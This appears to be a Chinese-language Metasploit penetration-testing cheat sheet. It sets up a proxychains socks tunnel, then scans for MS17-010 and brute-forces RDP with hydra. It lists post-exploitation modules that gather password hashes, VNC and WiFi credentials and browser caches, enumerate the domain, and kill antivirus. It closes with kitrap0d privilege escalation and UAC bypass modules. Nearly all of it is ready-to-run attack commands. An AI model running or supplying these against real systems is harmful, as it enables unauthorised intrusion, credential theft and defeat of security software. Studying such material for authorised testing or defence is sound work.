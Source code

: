> 
<h3>2.1、网络命令</h3>
<h4>Socks代理</h4>
<pre><code>前提：在目标设备添加完路由，才可以通过msf带的socks4a模块进行socks4代理转发
use auxiliary/server/socks4a
set srvhost 127.0.0.1
set srvport 2000
run

vim /etc/proxychains.conf   #在文件末尾添加socks4代理服务器
</code></pre>
使用proxychains代理访问执行nmap操作
<pre><code>proxychains nmap -sV -p 445 --script=smb-vuln-ms17-010.nse IP  
    #扫描永恒之蓝漏洞
proxychains hydra IP rdp -l administrator -P password.txt -V   
    #rdp服务暴力破解
</code></pre>


> 
<h3>2.2、信息收集</h3>
<h4>常用：</h4>
<pre><code>run arp_scanner -r ip/24  #利用arp进行存活主机扫描
run winenum               #自动化执行一些检测脚本
run credcollect           #获取用户hash
run domain_list_gen         #获取域管理账户列表
run post/multi/gather/env   #获取用户环境变量
run post/windows/gather/enum_logged_on_users -c  #列出当前登录用户
run post/linux/gather/checkvm     #是否虚拟机
run post/windows/gather/checkvm   #是否虚拟机
run post/windows/gather/forensics/enum_drives  #查看磁盘分区信息
run post/windows/gather/enum_applications      #获取安装软件信息
run post/windows/gather/dumplinks   #获取最近访问过的文档、链接信息
run post/windows/gather/enum_ie     #获取IE缓存
run post/windows/gather/enum_firefox  #获取firefox缓存
run post/windows/gather/enum_chrome   #获取Chrome缓存
run post/multi/recon/local_exploit_suggester  #获取本地提权漏洞
run post/windows/gather/enum_patches  #获取补丁信息
run post/windows/gather/enum_domain   #查找域控
run post/windows/gather/enum_snmp     #获取snmp团体名称
run post/windows/gather/credentials/vnc  #获取vnc密码
run post/windows/wlan/wlan_profile       #用于读取目标主机WiFi密码
run post/multi/gather/wlan_geolocate     #基于wlan进行地理位置确认 文件位于/root/.msf4/loot
run post/windows/manage/killav           #关闭杀毒软件
</code></pre>


> 
<h3>2.3、提权</h3>
<h4>本地提权：</h4>
搜集补丁信息，寻找可利用exploits提权
<pre><code>run post/windows/gather/enum_patches  #查看补丁信息
background
search MS10-015
use exploit/windows/local/ms10_015_kitrap0d
set session 8
run
</code></pre>
<hr/>
<h4>绕过UAC提权</h4>
msf内置bypassuac脚本，原理不同，使用方法类似
执行后返回一个新的会话，再次执行getsystem即可提权
<pre><code>exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_injection_winsxs